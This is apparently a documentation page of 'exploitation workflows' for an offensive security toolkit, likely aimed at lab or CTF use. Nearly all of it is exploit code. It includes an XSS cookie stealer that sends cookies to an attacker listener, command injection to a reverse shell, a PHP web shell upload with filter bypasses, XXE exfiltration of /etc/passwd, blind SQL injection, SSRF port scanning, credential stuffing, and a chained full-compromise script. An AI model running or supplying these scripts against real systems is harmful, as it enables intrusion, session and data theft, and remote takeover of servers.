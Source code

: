 Workflows
=========

End-to-end POC workflows for common exploitation scenarios.

XSS Cookie Stealer
------------------

Complete workflow for stealing cookies via XSS.

**Setup:**

Start the HTTP callback server first:

.. code-block:: bash

   uv run your_project --server

**Exploit Code:**

.. code-block:: python

   import requests
   from your_project.utils.output import out
   from your_project.utils.xss import cookie_stealer
   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string

   def run(args):
       """Steal admin cookie via stored XSS"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate XSS payload
       payload = cookie_stealer(f"http://{lhost}:{lport}")
       out.info(f"Payload: {payload}")

       # Send payload to vulnerable endpoint
       out.status("Injecting XSS payload...")
       r = requests.post(
           f"{target}/comment",
           data={"content": payload},
           allow_redirects=False
       )

       if r.status_code == 302:
           out.success("Payload injected successfully")

       # Wait for admin to visit and trigger callback
       out.status("Waiting for admin to view comment...")
       cookie_str = get_cookie(timeout=60)

       if not cookie_str:
           out.error("No callback received - admin may not have visited")
           return False

       out.success(f"Cookie captured: {cookie_str}")

       # Parse and use stolen cookie
       cookies = parse_cookie_string(cookie_str)

       # Access admin panel
       out.status("Accessing admin panel with stolen cookie...")
       r = requests.get(f"{target}/admin", cookies=cookies)

       if "Admin Panel" in r.text or r.status_code == 200:
           out.success("Successfully accessed admin panel!")
           return True
       else:
           out.error("Cookie didn't grant admin access")
           return False

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5

RCE to Interactive Shell
-------------------------

From command injection to full PTY shell.

**Exploit Code:**

.. code-block:: python

   import requests
   from your_project.utils.output import out
   from your_project.utils.reverse_shells import python_oneliner, bash_shell
   from your_project.utils.shell_catcher import auto_shell

   def run(args):
       """Exploit RCE and get interactive shell"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate shell payload
       cmd = python_oneliner(lhost, lport)
       out.info(f"Payload: {cmd}")

       # Catch shell automatically
       with auto_shell(lport) as catcher:
           # Trigger RCE
           out.status("Triggering RCE...")
           r = requests.post(
               f"{target}/api/run",
               json={"command": cmd},
               timeout=5
           )

           # Wait for shell
           out.status(f"Waiting for shell on port {lport}...")

           # Automatically upgrades to PTY and gives interactive shell
           if catcher.shell_caught:
               out.success("Shell caught!")
               catcher.stabilize()  # Upgrade to PTY
               out.info("Shell stabilized. Entering interactive mode...")
               catcher.interact()   # Full interactive shell!
           else:
               out.error("No shell received")

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5 --lport 4444

File Upload to RCE
------------------

Upload malicious file and get shell.

**Exploit Code:**

.. code-block:: python

   import requests
   from your_project.utils.output import out
   from your_project.utils.file_upload import FileUploader
   from your_project.utils.reverse_shells import php_shell
   from your_project.utils.shell_catcher import quick_catch

   def run(args):
       """Upload PHP shell and execute it"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate PHP reverse shell
       shell_path = php_shell(lhost, lport)
       out.info(f"Generated shell at: {shell_path}")

       # Read shell content
       with open(f'payloads/{shell_path}', 'rb') as f:
           shell_code = f.read()

       # Upload with bypass techniques
       out.status("Uploading shell...")
       uploader = FileUploader(f"{target}/upload")

       result = uploader.upload_with_bypass(
           "shell.php",
           shell_code,
           techniques=["double_extension", "null_byte"]
       )

       if result.status_code != 200:
           out.error("Upload failed")
           return

       out.success("Shell uploaded!")

       # Trigger execution and catch shell
       def trigger():
           out.status("Triggering shell execution...")
           requests.get(f"{target}/uploads/shell.php", timeout=2)

       quick_catch(lport, trigger_func=trigger)

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5 --lport 4444

XXE Data Exfiltration
---------------------

Read files via XXE.

**Setup:**

Start the HTTP callback server first:

.. code-block:: bash

   uv run your_project --server

**Exploit Code:**

.. code-block:: python

   import requests
   from your_project.utils.output import out
   from your_project.utils.xxe import quick_test
   from your_project.utils.server_hooks import get_exfil

   def run(args):
       """Exfiltrate /etc/passwd via XXE"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate XXE payload (also creates DTD file)
       payload = quick_test(f"http://{lhost}:{lport}", "/etc/passwd")
       out.info("XXE payload generated")

       # Send XXE payload
       out.status("Sending XXE payload...")
       r = requests.post(
           f"{target}/api/parse",
           data=payload,
           headers={"Content-Type": "application/xml"}
       )

       # Wait for exfil callback
       out.status("Waiting for data exfiltration...")
       data = get_exfil(timeout=30)

       if data:
           out.success("Data exfiltrated!")
           out.raw("\\n" + "="*50)
           out.raw(data)
           out.raw("="*50 + "\\n")
           return data
       else:
           out.error("No data received")
           return None

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5

Blind SQL Injection
-------------------

Extract data from blind SQLi.

**Exploit Code:**

.. code-block:: python

   import requests
   import string
   from your_project.utils.output import out
   from your_project.utils.timing import time_request

   def run(args):
       """Extract database name via boolean-based blind SQLi"""

       target = args.target

       def check_condition(condition):
           """Returns True if condition is true"""
           r = requests.get(
               f"{target}/api/user",
               params={"id": f"1' AND {condition}--"}
           )
           return "Welcome" in r.text

       # Extract database name
       db_name = ""
       charset = string.ascii_lowercase + string.digits + "_"

       out.info("Extracting database name...")

       for pos in range(1, 33):
           found = False
           for char in charset:
               condition = f"SUBSTRING(DATABASE(),{pos},1)='{char}'"

               if check_condition(condition):
                   db_name += char
                   out.status(f"Database: {db_name}")
                   found = True
                   break

           if not found:
               break

       out.success(f"Database name: {db_name}")
       return db_name

   def run_time_based(args):
       """Extract data via time-based blind SQLi"""

       target = args.target

       def check_char(pos, char):
           """Returns True if char at position matches"""
           payload = f"1' AND IF(SUBSTRING(DATABASE(),{pos},1)='{char}',SLEEP(3),0)--"

           def attempt():
               return requests.get(f"{target}/api/user", params={"id": payload}, timeout=10)

           duration = time_request(attempt, payload)
           return duration > 3

       db_name = ""
       charset = string.ascii_lowercase + string.digits + "_"

       out.info("Extracting database name (time-based)...")

       for pos in range(1, 33):
           found = False
           for char in charset:
               if check_char(pos, char):
                   db_name += char
                   out.status(f"Database: {db_name}")
                   found = True
                   break

           if not found:
               break

       out.success(f"Database name: {db_name}")
       return db_name

**Run:**

.. code-block:: bash

   # Boolean-based
   uv run your_project --target http://target.local

   # Time-based (if boolean-based doesn't work)
   uv run your_project --target http://target.local --time-based

SSRF to Internal Access
------------------------

Exploit SSRF to access internal services.

**Exploit Code:**

.. code-block:: python

   import requests
   from your_project.utils.output import out
   from your_project.utils.batch_request import batch_request_sync, generate_param_payloads
   import httpx

   def run(args):
       """Use SSRF to scan internal network"""

       target = args.target

       # Test SSRF vulnerability
       out.info("Testing SSRF...")
       test_url = "http://127.0.0.1:80"
       r = requests.get(f"{target}/fetch", params={"url": test_url})

       if r.status_code == 200:
           out.success("SSRF confirmed!")
       else:
           out.error("SSRF test failed")
           return

       # Scan internal ports
       out.status("Scanning internal ports...")
       client = httpx.Client()

       base = client.build_request("GET", f"{target}/fetch")

       # Common internal service ports
       ports = [22, 80, 443, 3306, 5432, 6379, 8080, 9200]
       internal_urls = [f"http://127.0.0.1:{port}" for port in ports]

       results = batch_request_sync(
           base,
           payloads=generate_param_payloads("url", internal_urls),
           validate=lambda r: r.status_code == 200 and len(r.text) > 100,
           concurrency=5
       )

       # Show open ports
       out.info("\\nOpen internal ports:")
       for result in results:
           if result.matched:
               port = result.payload['params']['url'].split(':')[-1]
               out.success(f"Port {port} is open")

       # Try to access internal admin panel
       out.status("\\nTrying internal admin panel...")
       r = requests.get(
           f"{target}/fetch",
           params={"url": "http://127.0.0.1:8080/admin"}
       )

       if "admin" in r.text.lower():
           out.success("Accessed internal admin panel!")
           out.raw(r.text[:500])

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local

Credential Stuffing
-------------------

Test multiple credentials efficiently.

**Exploit Code:**

.. code-block:: python

   import httpx
   from your_project.utils.output import out
   from your_project.utils.batch_request import batch_request_sync, generate_json_payloads

   def run(args):
       """Test common credential pairs"""

       target = args.target

       # Common credentials
       creds = [
           {"username": "admin", "password": "admin"},
           {"username": "admin", "password": "password"},
           {"username": "admin", "password": "admin123"},
           {"username": "root", "password": "root"},
           {"username": "administrator", "password": "administrator"},
           {"username": "test", "password": "test"},
       ]

       out.info(f"Testing {len(creds)} credential pairs...")

       client = httpx.Client()
       base = client.build_request(
           "POST",
           f"{target}/api/login",
           json={"username": "", "password": ""}
       )

       # Test all credentials
       results = batch_request_sync(
           base,
           payloads=[{"json": cred} for cred in creds],
           validate=lambda r: r.status_code == 200 and "token" in r.text,
           concurrency=3  # Be gentle with login endpoints
       )

       # Show valid credentials
       for result in results:
           if result.matched:
               creds = result.payload['json']
               out.success(f"Valid creds: {creds['username']}:{creds['password']}")

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local

Complete Exploitation Workflow
-------------------------------

Full exploitation chain.

**Setup:**

Start the HTTP callback server first:

.. code-block:: bash

   uv run your_project --server

**Exploit Code:**

.. code-block:: python

   import requests
   from your_project.utils.output import out
   from your_project.utils.html_parser import HTMLParser
   from your_project.utils.xss import cookie_stealer
   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string
   from your_project.utils.file_upload import FileUploader
   from your_project.utils.reverse_shells import php_shell
   from your_project.utils.shell_catcher import auto_shell

   def run(args):
       """Complete exploitation chain"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Stage 1: Reconnaissance
       out.info("Stage 1: Reconnaissance")
       r = requests.get(target)
       parser = HTMLParser.from_response(r)

       # Find forms
       forms = parser.find_forms()
       out.success(f"Found {len(forms)} forms")

       # Find upload endpoint
       upload_form = None
       for form in forms:
           if 'upload' in form.get('action', '').lower():
               upload_form = form
               break

       if not upload_form:
           out.error("No upload form found")
           return

       # Stage 2: XSS to steal admin cookie
       out.info("\\nStage 2: XSS Cookie Theft")
       payload = cookie_stealer(f"http://{lhost}:{lport}")

       requests.post(f"{target}/comment", data={"msg": payload})
       out.status("Waiting for admin...")

       cookie_str = get_cookie(timeout=60)
       if not cookie_str:
           out.error("No cookie received")
           return

       out.success("Cookie captured!")
       cookies = parse_cookie_string(cookie_str)

       # Stage 3: File upload with stolen session
       out.info("\\nStage 3: File Upload")
       shell_path = php_shell(lhost, 4444)

       with open(f'payloads/{shell_path}', 'rb') as f:
           shell_code = f.read()

       uploader = FileUploader(f"{target}/upload")
       result = uploader.upload(
           "shell.php",
           shell_code,
           cookies=cookies
       )

       if result.status_code != 200:
           out.error("Upload failed")
           return

       out.success("Shell uploaded!")

       # Stage 4: Get interactive shell
       out.info("\\nStage 4: Shell Execution")

       with auto_shell(4444) as catcher:
           requests.get(f"{target}/uploads/shell.php", timeout=2)

           if catcher.shell_caught:
               out.success("Root access achieved!")
               catcher.stabilize()
               catcher.interact()

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5
